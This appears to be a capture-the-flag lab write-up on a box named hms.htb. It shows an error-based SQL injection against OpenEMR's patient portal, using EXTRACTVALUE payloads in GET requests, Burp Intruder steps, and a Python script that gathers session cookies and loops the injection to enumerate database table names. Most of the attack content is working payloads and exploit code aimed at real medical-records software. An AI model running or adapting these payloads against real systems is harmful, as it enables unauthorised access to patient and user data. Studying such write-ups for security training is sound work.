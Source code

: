 # Steps to use intruder
```Sql
==================================================================================================================================
Before:
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+TABLE_NAME+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA+like+'openemr'+LIMIT+1))) HTTP/1.1

After:
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+TABLE_NAME+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA+like+'openemr'+limit+1,1))) HTTP/1.1
out:     
Error: <font color='red'>XPATH syntax error: '     
amc_misc_data'</font>     
================================================================================================================================== 
```


What the 1,1 tells us is the row and the max number of rows. So example, 2,1 3,1 4,1 ..... so we can dump every single column inside  
of this table. There is a lot of columns so we may want to automate this task.     


![[intruder_add.png]]
We could write a a script or use burp intruder free version which is time throttled to enuemerate, 
1. Send repeater payload to intruder 
2. Go to positions tab and and hit the clear button to clear the symbols 
3. Add a symbol around the value you want to attack. This case being the first number after "LIMIT". Highlight it. 
4. Go to payloads and set the payload type to numbers and make the number range sequential 
5. From 0 to 300 Step 1. 

![[Pasted image 20210421172639.png]]
 
Afterwards you may want to find the output but it becomes quite hard to look for so you can create a grep rule from within 
burp to find the necessary info and narrow it down. 
1.Go to option within the intruder attack 
2. Go to Grep - extract 
3. Add a rule  
4. Start expresion, this case being for us "XPATH syntax error: '" 
5. End at delimiter, this being  "'"
6. click ok , and inresults you should see a new column with the expresion start and rows of the data extracted.
![[Pasted image 20210421172727.png]]

![[Pasted image 20210421172842.png]]

In the end we find 3 interesting artifacts, users, users_facility, and users_secure

![[Pasted image 20210421173103.png]]

## Python Code to Emulate Intruder Behavior with no throttling
```python
import requests
import re
import sys

# You will need 3 requests
# 1st request to the server to retrieve the PHPSESSION cookie
# 2nd request to obtain the OPENEMR cookie
# and the final request is to send the both cookies previously obtained


p = requests.get('http://hms.htb/portal/account/register.php')
q = requests.get('http://hms.htb/interface/login/login.php?site=default')
for c in p.cookies:
    q.cookies.set(c.name , c.value)

pattern = re.compile("XPATH syntax error: \'(.*)\'")
for i in range(1,300):
    # made sure 0x5c was used instead of 0x0a to make it easier to parse
    r = requests.get("http://hms.htb/portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x5c,(SELECT+TABLE_NAME+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA+like+'openemr'+limit+"+ str(i) + ",1)))", cookies=q.cookies)
    ### NEED error handling if string is not found
    try:
        result = pattern.search(r.text)
        print(result.group(1)[1:])
    except (AttributeError): 
        print("All range numbers have been exhausted.")
        break
```

